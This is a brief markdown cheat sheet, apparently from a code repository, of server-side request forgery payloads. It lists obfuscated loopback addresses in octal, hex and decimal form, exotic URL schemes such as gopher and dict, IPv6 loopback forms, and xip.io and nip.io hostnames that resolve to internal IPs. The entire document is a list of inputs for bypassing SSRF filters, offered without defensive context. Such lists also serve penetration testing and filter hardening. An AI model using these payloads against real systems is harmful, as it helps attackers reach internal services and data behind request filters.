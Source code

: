 ## SSRF

```
http://0177.1/
http://0x7f.1/
http://127.000.000.1
https://520968996
```

_Note:_ The latter can be calculated using http://www.subnetmask.info/

**Exotic Handlers**

```
gopher://, dict://, php://, jar://, tftp://
```

**IPv6**

```
http://[::1]
http://[::]
```

**Wildcard DNS**

```
10.0.0.1.xip.io
www.10.0.0.1.xip.io
mysite.10.0.0.1.xip.io
foo.bar.10.0.0.1.xip.io
```
_Link:_ http://xip.io

```
10.0.0.1.nip.io
app.10.0.0.1.nip.io
customer1.app.10.0.0.1.nip.io
customer2.app.10.0.0.1.nip.io
otherapp.10.0.0.1.nip.io
```

_Link:_ http://nip.io

